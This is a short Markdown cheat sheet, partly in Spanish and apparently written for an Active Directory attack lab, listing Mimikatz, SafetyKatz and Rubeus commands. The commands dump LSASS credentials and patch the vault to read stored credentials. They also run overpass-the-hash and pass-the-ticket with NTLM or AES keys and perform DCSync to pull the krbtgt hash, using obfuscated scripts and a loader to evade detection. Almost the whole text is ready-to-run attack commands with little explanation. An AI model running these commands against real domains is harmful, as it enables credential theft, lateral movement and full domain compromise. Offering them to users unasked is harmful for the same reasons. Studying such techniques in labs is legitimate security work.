 # Mimikatz 

Tags: #AD #Windows #Mimikatz #Powershell #Rubeus 

* [Mimikatz](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/kali/master/x64?ref_type=heads)

```powershell 
Mimikatz puede ser usado para extraer credenciales, tickets
```

## Runas 

```powershell 
❯ runas /user:domain\user /netonly cmd       
```

## Credential Extration - LSASS

```powershell 
❯ mimikatz.exe -Command '"sekurlsa::ekeys"'    # Dump credentials on a using Mimikatz
❯ SafetyKatz.exe "sekurlsa::ekeys"             # Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)

Notes: 
	1. From a Linux attacking machine using impacket 
```

```powershell 
❯ .\Invoke-Mimi.ps1   # Script ligero 

# Versión ofuscada    
❯ .\Invoke-MimiEx-keys.ps1         # Ejecutar sekurlsa::ekeys 
❯ .\Invoke-MimiEx-vault.ps1        # Ejecutar vault::cred /patch 
```

## OverPass The Hash 

```powershell 
❯ SafetyKatz.exe "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"       # Over Pass The Hash (OPTH) generate tokens from hashes or keys. Needs elevation (Run as administrator)

Notes: 
	1. The above commands starts a process with a logon type 9 (same as runas /netonly) 
```

## OverPass The Hash - Rubeus 

```powershell 
❯ Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt    # Doesn't need elevation 

❯ Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt           # This command needs elevation 

❯ C:\AD\Loader.exe -path C:\AD\Rubeus.exe -args asktgt /user:svcadmin /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 

Notes:
	1. Over Pass The Hash (OPTH) generate tokens from hashes or keys
```

## DCSync 

```powershell 
# To extract credentials from the DC without code execution on it, we can use DCSync

❯ SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"    # To use the DCSync feature for getting krbtgt hash execute. Use this command with DA privileges for domain 

❯ C:\AD\Loader.exe -path C:\AD\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit" 

Notes:
	1. By default, Domain Admins, Enterprise Admins or Domain Controller privileges are required to run DCSync
```